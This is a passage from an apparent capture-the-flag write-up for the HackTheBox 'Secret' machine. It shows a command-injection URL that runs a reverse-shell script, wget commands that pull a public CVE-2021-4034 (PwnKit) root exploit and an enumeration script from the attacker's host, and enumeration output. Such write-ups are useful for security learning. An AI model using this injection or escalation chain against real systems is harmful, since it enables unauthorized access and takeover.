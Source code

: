 ## Execute the payload
http://secret.htb:3000/api/logs?file=;bash rs.sh
![](https://i.imgur.com/0dM8p8n.png)
![](https://i.imgur.com/ebxkUH7.png)

I have a shell as dashith.

# Get root 
## Download the exploit
### On my computer
```sh
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```
### On the target
```sh
wget http://10.10.15.22:8000/pol.py
```
### Exploit
```sh
python3 pol.py
```
![](https://i.imgur.com/SEkhzdW.png)

# It's not finish
This exploit is a cheat code, it's too easy and I want to learn.

## Smart enum
```sh
wget http://10.10.15.22:8000/lse.sh 
sh lse.sh
```
```sh
 LSE Version: 3.9

        User: dasith
     User ID: 1000
    Password: none
        Home: /home/dasith
        Path: /usr/bin:/bin
       umask: 0022

    Hostname: secret
       Linux: 5.4.0-89-generic
Distribution: Ubuntu 20.04.3 LTS
Architecture: x86_64
============================================================( file system )=====
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/opt/count
/snap/snapd/13640/usr/lib/snapd/snap-confine
/snap/snapd/13170/usr/lib/snapd/snap-confine
---
[*] fst100 Useful binaries................................................. yes!
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
===============================================================( software )=====
[*] sof170 Can we access MongoDB databases without credentials?............ yes!
```